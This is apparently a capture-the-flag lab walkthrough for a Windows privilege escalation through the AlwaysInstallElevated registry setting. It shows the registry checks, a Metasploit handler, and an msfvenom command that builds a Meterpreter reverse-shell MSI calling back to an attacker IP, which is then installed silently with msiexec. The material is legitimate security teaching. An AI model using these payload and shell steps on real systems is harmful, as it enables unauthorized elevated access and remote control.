





# AlwaysInstallElevated Exploit

AlwaysInstallElevated is a registry key entry in the **`HKLM\Software\Policies\Microsoft\Windows\Installer`** and **`HKCU\Software\Policies\Microsoft\Windows\Installer`** registry keys that allows any user to install an .msi file with elevated privileges.

## Detection

Open command prompt and type: **`reg query HKLM\Software\Policies\Microsoft\Windows\Installer`**
From the output, notice that “`AlwaysInstallElevated`” value is 1

```bash
**reg query HKLM\Software\Policies\Microsoft\Windows\Installer**
```



In command prompt type: **`reg query HKCU\Software\Policies\Microsoft\Windows\Installer`**
From the output, notice that “`AlwaysInstallElevated`” value is 1

```bash
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
```



## Exploitation

Start a multi-handler reverse shell

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ msfconsole -q
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.18.48.44
LHOST => 10.18.48.44
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.18.48.44:4444
```

Generate `msfvenom` exploit

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.18.48.44 lport=4444 -f msi -o setup.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of msi file: 159744 bytes
Saved as: setup.msi
```

Copy the generated file, `setup.msi`, to the target



Place ‘setup.msi’ in ‘`C:\Temp`’

Run the following command:

```bash
msiexec /quiet /qn /i C:\Temp\setup.msi
```



Receive reverse shell


